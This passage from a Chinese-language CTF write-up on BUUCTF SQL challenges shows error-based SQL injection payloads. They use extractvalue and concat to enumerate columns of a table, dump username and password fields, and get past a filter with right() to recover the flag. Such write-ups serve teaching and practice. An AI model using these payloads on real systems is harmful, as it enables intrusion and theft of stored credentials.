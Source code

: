 稍作修改，继续输入 `1'or(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')))))#`，获得列名。

![](/img/BUUCTF_SQL刷题/Be9PbyEnAoovDnxikzQcsfb0nBc.png)

稍作修改，继续输入 `1'or(extractvalue(1,concat(0x7e,(select(group_concat(username,0x7e,password))from(geek.H4rDsq1)))))#`，获得 username 和 password 列的内容。

![](/img/BUUCTF_SQL刷题/Em56bWLD5oa4vxxfiFfcoaiinzx.png)

显示不完全，用 `substring(str,num1,num2)` 函数调整位置，结果发现这个也过滤了，换用 `right` 尝试 `1'or(extractvalue(1,concat(0x7e,right((select(group_concat(username,0x7e,password))from(geek.H4rDsq1)),30))))#`，成功，拼接即得 flag。

![](/img/BUUCTF_SQL刷题/UfYgb6VlWo2S67xoN8GctLwqn2g.png)